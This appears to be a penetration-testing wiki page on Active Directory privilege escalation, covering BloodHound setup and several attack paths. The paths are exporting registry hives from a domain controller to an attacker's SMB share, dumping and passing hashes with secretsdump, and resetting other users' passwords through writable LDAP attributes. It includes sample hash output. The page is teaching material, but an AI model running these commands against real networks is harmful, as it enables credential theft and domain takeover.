

# Active Directory Privilege Escalation

## Description

Windows Active Directory (AD) is meant to be a _directory of resources_. It mainly holds **Users**, **Groups**, and **Computers** allowing administrators to write policies for managing the network.&#x20;

The system has gotten so big and complex that it's _hard_ to find a secure environment. The biggest problem is sticking to backward compatibility, meaning old and insecure protocols should still be supported in the newest version, so that any two versions can work together. This causes many different versions to stay active while administrators forget about them.&#x20;

Some of the main protocols found in AD are:

* **LDAP** (Lightweight Directory Access Protocol): The "database" of AD, where resources are stored and queried
* **DNS** (Domain Name System): Resolving domain names to IP addresses in the internal network
* **SMB** (Server Message Block): Used for different things, mainly file sharing and printer access
* **NTLM** & **Kerberos** Authentication: First came NTLM, which after many security patches, was thrown out over Kerberos. In most ADs, however, this old protocol is still used in places, or it can be forced by an attacker. See [windows-authentication](windows-authentication/ "mention") for more information

Pentesting _Active Directory_ is a game of privilege escalation. First, often some credentials or code execution is found as an entry point, and then you move throughout the network by accessing files, exploiting more services or simply abusing privileges. This is then repeated until the Domain Admin account is reached which gives full access to do anything on the domain.&#x20;

## Commands

Using `nmap` to find open ports, you can try to find any **initial access** for you to escalate from.&#x20;

To be efficient, you will often use tooling in order to perform enumeration and attacks. A list of useful tools with a small description for each one can be found here:


GTFOBins-style cheatsheet of AD tools for different attacks


[Impacket](https://github.com/fortra/impacket) is a Python library implementing many protocols used by Active Directory. Its [`examples/`](https://github.com/fortra/impacket/tree/master/examples) directory houses many useful scripts for attacking a domain with different techniques, and some useful utilities. To learn what each script does, check out the work-in-progress list here:


List of all impacket examples with explanations, arguments, and examples


## BloodHound


Explore and analyze Active Directory using graphs, nodes and paths


BloodHound is a visual tool that allows you to explore and analyze big Active Directory networks by finding paths to higher privileges. To set it up, there are 3 components:

1. A [Neo4J](https://github.com/neo4j/neo4j) database to store data in the form of graphs, which BloodHound will analyze
2. BloodHound client to analyze the graph and find privilege escalation paths
3. Raw AD information like users, groups, and privileges. This is used to find paths in

These can be easily started with a Docker container:

```bash
curl -L https://ghst.ly/getbhce | BLOODHOUND_PORT=3000 docker compose -f - up
```

After having started up, you should find a login page on [http://localhost:3000/ui/login](http://localhost:3000/ui/login). In the docker logs, you will find an "Initial Password Set To:" the first time, with a random string that is the password for the `admin` user you should log in as. After successfully logging in, it will ask you to change the password to another strong random string, and then you are greeted with the welcome screen.&#x20;

### LEGACY: Manual Setup

#### Neo4J Database

You can follow the [installation instructions](https://neo4j.com/docs/operations-manual/current/installation/linux/) to install the `neo4j` binary, which you can start at any time using:

```bash
sudo neo4j console
```

This will start a database server on [http://localhost:7474/](http://localhost:7474/) where you need to change the password for the **first time**. Default credentials are `neo4j`:`neo4j`, and when you log in, you are asked to set a new one. After doing so you can connect to it with BloodHound as explained below.&#x20;

#### BloodHound client

Download the latest release from [GitHub](https://github.com/BloodHoundAD/BloodHound/releases) and simply start the program. It will open a GUI application where you are required to log in with the Neo4J credentials you set, after which you will see a blank canvas.&#x20;

On the right are a few buttons, and to upload data for it to analyze choose (6).png>)**Upload Data**. Here you can select multiple files we will generate in the next section.&#x20;

### Ingesting data

Fetching the data from AD is done with an "ingestor". The official one is [SharpHound](https://github.com/BloodHoundAD/SharpHound) which you run as a domain-joined user to enumerate everything they can access:


Official data collector for BloodHound as a Windows binary ran as the compromised user


Possibly an easier way however is using the Python tool which can be run from anywhere and supports multiple ways of authentication:


Unofficial ingestor made in Python requiring credentials as arguments


<pre class="language-shell-session"><code class="lang-shell-session">$ mkdir bloodhound &#x26;&#x26; cd bloodhound
<strong>$ bloodhound.py -c all -d $DOMAIN -u $USERNAME -p $PASSWORD -dc $DC
</strong>...
$ ls
computers.json   domains.json  groups.json  users.json
containers.json  gpos.json     ous.json
</code></pre>

***

However you generated the JSON files, you should now open up the BloodHound UI. In the [File Ingest](http://localhost:8080/ui/administration/file-ingest) page, you can press **Upload Files** and drag in collected data from [#ingesting-data](active-directory-privilege-escalation.md#ingesting-data "mention").

&#x20;Then visit the main page to explore the data by searching for specific nodes (usernames, computers, etc.), pathfinding (find escalation paths from A to B), and running Cypher queries. The last can be complex to write yourself, but is the most powerful. There are some useful common queries in the  menu to find useful "shortest paths", users that can be attacked by [#kerberoasting](lateral-movement.md#kerberoasting "mention") or [#asreproasting](lateral-movement.md#asreproasting "mention"), and much more.

### Usage

Check out the following awesome post that shows the basic usage of BloodHound CE:



## Abusing Permissions

BloodHound will analyze and show privilege escalation paths with connections that get you from one domain object to another. It will already explain how to exploit these steps in great detail by clicking on a path, but here are a few common ones that you may be able to exploit.

### Backup Operators to Domain Admin



When a user you have access to is part of the **Backup Operators** group, BloodHound shows them as a 'High-Value Target'. This is with good reason because such a user has permission to dump highly sensitive data like the registry hives on the Domain Controller. This can be used to extract the hashes of all domain users and then crack them or perform [#pass-the-hash](lateral-movement.md#pass-the-hash "mention").&#x20;

The GitHub tool linked above is quite simple. It connects to the remote registry as your backup operator user and then exports the SAM, SYSTEM and SECURITY hives one by one to an SMB share you provide. This means you'll need to set up a server to receive the files, easily done with [`impacket`](https://github.com/fortra/impacket):


```bash
sudo smbserver.py -smb2support -ip 0.0.0.0 share .
```


This opens up an externally listening SMB server that writes and reads files in the local `share/` folder, mounted on `\share` in SMB. This now allows you to run the exploit and receive all the files:


```powershell
.\BackupOperatorToDA.exe -t \\$DC -u $USERNAME -p $PASSWORD -d $DOMAIN -o \\$YOUR_IP\share\
```


After all files have been received, the listener can be closed and you should find the three files inside of your local `share/` folder. These can now be used to extract credentials in the domain:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ secretsdump.py -sam 'SAM' -security 'SECURITY' -system 'SYSTEM' LOCAL
</strong>
[*] Target system bootKey: 0xdeb57b9db8977527c479bbcf66cb2ffa
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bff4295a37d9c810ab95210a732f25a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:36c6a05e4f16ea7bee1353e4c2cf37ece70936685c9a3413fd61cee65f5e0380c6ff5f0eca41e127db13bde71e7bb1a6592e4c0f9d0cfb19c14f8b1db2a5d3a959fe61c6ce9395e351aad565f617996912c117bddbdfc240e78c86f09a6dafa9e2157231f024d5a8eec0cd441c8f4d5c0cd8c3173b51f03a726aec3a6eb00dc0ba187e711dfe5c40a386fc97323e3056216c86e1be0faa3e8a589b4da71f765e2a79565840207eee57a4f62b6359ff1767437a15fa52d995909f7cad9527c697c7fdae843decf2ec715cd7be2e786db602958f592cd407f8ea128a355efa781cfd58fa86c338a71882df6a046ca4129f
<strong>$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:32799b70a471243cbedc8635ba218c4d
</strong>[*] DPAPI_SYSTEM
dpapi_machinekey:0x5eaf463ea139632e43dd730d2036e4cf2a49267d
dpapi_userkey:0x5a280c920a3d58375a6999057006b4d567077757
[*] NL$KM
 0000   7D 16 EE 38 FE 13 F7 FC  7C F8 FE 03 73 B9 8F 55   }..8....|...s..U
 0010   A8 86 BB D3 EA 88 C8 FF  75 88 FD 48 AC 73 4C C6   ........u..H.sL.
 0020   17 DE FE 92 F1 49 AD EF  20 3A 85 EE F9 9D CD 53   .....I.. :.....S
 0030   22 06 93 D3 91 43 77 88  0F 6A 5E BD 43 9F 4D 61   "....Cw..j^.C.Ma
NL$KM:7d16ee38fe13f7fc7cf8fe0373b98f55a886bbd3ea88c8ff7588fd48ac734cc617defe92f149adef203a85eef99dcd53220693d3914377880f6a5ebd439f4d61
[*] Cleaning up...
</code></pre>

In the output above, the 'local SAM hashes' section lists **local accounts** on the computer. If enabled, you can log in as the local `Administrator`, for example, to completely take over the Domain Controller. This is not always the case however, but another option is the 'LSA Secrets'. This shows a `$MACHINE.ACC` with an NTLM hash as well. This is the machine account of the target we just dumped, so the domain controller as `DC01$`. We can actually use this machine account to log in to places like a regular account, like on the domain controller itself. This is not disabled by default.&#x20;

With administrator access to the domain controller, we can dump all secrets using `secretsdump.py` once more. This time we will pass the hash for the computer account of the domain controller:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ secretsdump.py $DOMAIN/'DC01$'@$DC -hashes :32799b70a471243cbedc8635ba218c4d -just-dc
</strong>
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
<strong>Administrator:500:aad3b435b51404eeaad3b435b51404ee:c33b5cf9fa1b1bb4894d4a6cd7c54034:::
</strong>...
</code></pre>

Using the 'DRSUAPI method' we get another `Administrator` account, but this is a **domain account**, so we have just leaked the credentials of a **domain administrator**. It should also print all other domain accounts so the whole domain is compromised.

### Writable LDAP attributes

BloodHound uses LDAP to query and analyze all permissions users have and sometimes tells you that a user has write privileges to another user via LDAP. A great tool to find and exploit these types of misconfigurations is BloodyAD:


Interact with the Domain Controller through LDAP for various privilege escalation methods


Writable LDAP objects can be enumerated using the [`get writable`](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide#get-writable) command:

```bash
bloodyAD --host $DC -d $DOMAIN -u $USERNAME -p $PASSWORD get writable --detail
```

If you find here that you have permission to write over another user, you may be able to simply overwrite their current password with [`set password`](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide#set-password) and log in with it right after:


```bash
bloodyAD --host $DC -d $DOMAIN -u $USERNAME -p $PASSWORD set password $TARGET_USERNAME $NEW_PASSWORD
```



**Tip**: Authentication can also be done with pass-the-hash, see [Authentication](https://github.com/CravateRouge/bloodyAD/wiki/Authentication-Methods) for details

